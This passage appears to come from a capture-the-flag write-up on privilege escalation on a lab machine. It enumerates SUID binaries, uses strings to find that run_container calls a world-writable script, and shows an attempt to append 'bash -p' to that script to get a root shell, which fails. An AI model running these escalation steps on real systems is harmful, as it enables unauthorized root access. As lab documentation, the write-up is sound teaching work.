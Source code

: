 User flag located in `/home/think/user.txt`.

## Privilege Escalation

### SUID Binary Enumeration

We searched for binaries with the SUID bit set:

```bash
find / -type f -perm -u=s 2>/dev/null
```

**Notable finding:**

```bash
/usr/sbin/run_container
```

This binary is owned by `root` and has the SUID bit set, meaning it executes with **elevated privileges** (UID 0).

### Inspecting the SUID Binary

We ran `strings` to determine what the binary is executing:

```bash
strings /usr/sbin/run_container
```

**Relevant Output:**

```bash
...
/bin/bash
/opt/run_container.sh
...
```

This shows the binary executes `/opt/run_container.sh`, a Bash script designed to manage Docker containers.

Inspecting the script:

```bash
ls -l /opt/run_container.sh
```

**Output:**

```bash
-rwxrwxrwx 1 root root 1715 Jan 10  2024 /opt/run_container.sh
```

While the script appears to be **world-writable**, attempts to modify it using a standard shell as `think` fail:

```bash
echo "bash -p" >> /opt/run_container.sh
# Permission denied
```
